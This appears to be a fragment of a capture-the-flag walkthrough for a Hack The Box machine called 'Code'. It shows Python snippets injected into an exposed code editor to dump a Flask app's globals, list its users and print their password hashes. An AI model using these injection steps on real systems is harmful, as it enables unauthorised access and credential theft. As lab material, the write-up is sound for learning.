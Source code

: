 
if you have [access to a code editor](https://app.hackthebox.com/machines/Code) then run the following command to show items from db.

```python
raise Exception(globals())
```
`raise Exception(globals())` and got a detailed dump of the app's global variables and environment. This output shows the full context of the running Flask app, including:

- The Flask app instance (app)
- The database object (db)
- The SQLAlchemy models like User and Code
- Various Flask functions and modules like request, render_template, os, hashlib, etc.

Find users using 
```python
raise Exception(User.query.all())
```

Get password hashes using the following.
```python
print([(user.id, user.username, user.password) for user in User.query.all()])
```